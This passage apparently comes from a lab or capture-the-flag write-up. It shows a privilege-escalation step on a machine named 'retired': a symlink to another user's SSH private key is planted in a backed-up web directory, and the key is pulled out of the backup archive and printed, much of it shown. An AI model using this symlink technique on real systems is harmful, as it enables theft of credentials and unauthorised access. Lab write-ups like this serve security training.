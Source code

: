 `/usr/bin/webbackup` ZIPs up `/var/www/html`, which `www-data` has write access to. By creating a symbolic link to `dev`'s SSH private key in `/var/www/html`, when the `systemd` timer executes it will follow the symbolic link and include the SSH key in the resultant ZIP archive.

```bash
www-data@retired:/var/www$ ln -s /home/dev/.ssh/id_rsa /var/www/html/id_rsa
www-data@retired:/var/www$ cp 2022-04-12_22-51-03-html.zip /dev/shm
www-data@retired:/var/www$ cd /dev/shm
www-data@retired:/dev/shm$ unzip 2022-04-12_22-51-03-html.zip
Archive:  2022-04-12_22-51-03-html.zip
   creating: var/www/html/
   creating: var/www/html/js/
  inflating: var/www/html/js/scripts.js
  inflating: var/www/html/activate_license.php
   creating: var/www/html/assets/
  inflating: var/www/html/assets/favicon.ico
   creating: var/www/html/assets/img/
  inflating: var/www/html/assets/img/close-icon.svg
  inflating: var/www/html/assets/img/navbar-logo.svg
   creating: var/www/html/assets/img/about/
  inflating: var/www/html/assets/img/about/2.jpg
  inflating: var/www/html/assets/img/about/4.jpg
  inflating: var/www/html/assets/img/about/3.jpg
  inflating: var/www/html/assets/img/about/1.jpg
   creating: var/www/html/assets/img/logos/
  inflating: var/www/html/assets/img/logos/facebook.svg
  inflating: var/www/html/assets/img/logos/microsoft.svg
  inflating: var/www/html/assets/img/logos/google.svg
  inflating: var/www/html/assets/img/logos/ibm.svg
   creating: var/www/html/assets/img/team/
  inflating: var/www/html/assets/img/team/2.jpg
  inflating: var/www/html/assets/img/team/3.jpg
  inflating: var/www/html/assets/img/team/1.jpg
  inflating: var/www/html/assets/img/header-bg.jpg
  inflating: var/www/html/beta.html
  inflating: var/www/html/default.html
  inflating: var/www/html/index.php
  inflating: var/www/html/id_rsa
   creating: var/www/html/css/
  inflating: var/www/html/css/styles.css
www-data@retired:/dev/shm$ cat var/www/html/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA58qqrW05/urHKCqCgcIPhGka60Y+nQcngHS6IvG44gcb3w0HN/yf
db6Nzw5wfLeLD4uDt8k9M7RPgkdnIRwdNFxleNHuHWmK0j7OOQ0rUsrs8LudOdkHGu0qQr
AnCIpK3Gb74zh6pe03zHVcZyLR2tXWmoXqRF8gE2hsry/AECZRSfaYRhac6lASRZD74bQb
xOeSuNyMfCsbJ/xKvlupiMKcbD+7RHysCSM6xkgBoJ+rraSpYTiXs/vihkp6pN2jMRa/ee
ADRNWoyqU7LVsKwhZ//AxKjJSvDSnaUeIDaKZ6e4XYsOKTXX3Trh7u9Bjv2YFD8DRDEmDI
5d+t6Imws8370a/5Z2z7C7jfCpzDATek0NIqLi3jEmI/8vLO9xIckjaNVoqw/BVKNqjd03
KKK2Y0c5DRArFmwkJdmbGxwzyTV8oQZdjw0mVBFjbdQ0iiQBEFGNP9/zpT//ewaosZYROE
4FHXNEIq23Z3SxUNyUeLqkI8Mlf0McBmvc/ozGR5AAAFgKXd9Tyl3fU8AAAAB3NzaC1yc2
EAAAGBAOfKqq1tOf7qxygqgoHCD4RpGutGPp0HJ4B0uiLxuOIHG98NBzf8n3W+jc8OcHy3
iw+Lg7fJPTO0T4JHZyEcHTRcZXjR7h1pitI+zjkNK1LK7PC7nTnZBxrtKkKwJwiKStxm++
M4eqXtN8x1XGci0drV1pqF6kRfIBNobK8vwBAmUUn2mEYWnOpQEkWQ++G0G8TnkrjcjHwr
Gyf8Sr5bqYjCnGw/u0R8rAkjOsZIAaCfq62kqWE4l7P74oZKeqTdozEWv3ngA0TVqMqlOy
1bCsIWf/wMSoyUrw0p2lHiA2imenuF2LDik119064e7vQY79mBQ/A0QxJgyOXfreiJsLPN
+9Gv+Wds+wu43wqcwwE3pNDSKi4t4xJiP/LyzvcSHJI2jVaKsPwVSjao3dNyiitmNHOQ0Q
KxZsJCXZmxscM8k1fKEGXY8NJlQRY23UNIokARBRjT/f86U//3sGqLGWEThOBR1zRCKtt2
d0sVDclHi6pCPDJX9DHAZr3P6MxkeQAAAAMBAAEAAAGAEOqioDubgvZBiLXphmzSUxiUpV
0gDrfJ8z8RoqE/nAdmylWaFET0olRA5z6niQKgPIczGsOuGsrrDpgFd84kd4DSywmPNkhQ
oF2DEXjbk5RJzJv0spcbRKTQc8OFZcMqCYHemkux79ArRVm/X6uT40O+ANMLMOg8YA47+G
EkxEj3n81Geb8GvrcPTlJxf5x0dl9sPt+hxSIkPjvUfKYV7mw9nEzebvYmXBhdHsF8lOty
TR76WaUWtUUJ2EExSD0Am3DQMq4sgLT9tb+rlU7DoHtoSPX6CfdInH9ciRnLG1kVbDaEaa
NT2anONVOswKJWVYgUN83cCCPyRzQJLPC6u7uSdhXU9sGuN34m5wQYp3wFiRnIdKgTcnI8
```